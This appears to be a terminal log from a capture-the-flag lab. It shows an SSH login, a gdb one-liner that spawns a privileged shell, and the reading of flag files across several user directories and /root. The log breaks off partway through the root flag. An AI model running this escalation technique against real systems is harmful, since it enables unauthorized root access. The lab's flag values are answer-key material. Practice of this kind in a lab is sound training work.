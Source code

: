 ftp> ^C
ftp> exit
221 Goodbye.
root@ip-10-10-13-24:~# ssh -i key.pem shrek@10.10.29.94
The authenticity of host '10.10.29.94 (10.10.29.94)' can't be established.
ECDSA key fingerprint is SHA256:q9K14ILwuQ6aUiuLgCn+Vp4k/3sU97bMD+j/DxqjxLk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.29.94' (ECDSA) to the list of known hosts.
[shrek@shrek ~]$ ls
check.sh  flag.txt
[shrek@shrek ~]$ cat flag.txt
0069ba233da89efe6f48e7d214034130
[shrek@shrek ~]$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

GNU gdb (GDB) Red Hat Enterprise Linux 7.6.1-115.el7
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
sh-4.2# ls
check.sh  flag.txt
sh-4.2# cd ..
sh-4.2# ls
donkey	puss  shrek
sh-4.2# cd puss
sh-4.2# ls
flag.txt  telnetd
sh-4.2# cat flag.txt 
6f960e8f2ea8e3de92f192fae492ec59
sh-4.2# cd ..
sh-4.2# ls
donkey	puss  shrek
sh-4.2# cd donkey
sh-4.2# ls
flag.txt  ftp
sh-4.2# cat flag.txt
974acecd51cc45c843062fdac6235e97
sh-4.2# ls
flag.txt  ftp
sh-4.2# ls ftp
file
sh-4.2# ls ftp/file
ftp/file
sh-4.2# cd ~
sh-4.2# ls
check.sh  flag.txt
sh-4.2# cat flag.txt
0069ba233da89efe6f48e7d214034130
sh-4.2# cd ..
sh-4.2# cd ..
sh-4.2# ls
bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 media	opt  root  sbin  sys  usr
sh-4.2# cd root
sh-4.2# ls
anaconda-ks.cfg  king.txt  root  root.txt
sh-4.2# cat root.txt
8cc6ece048e
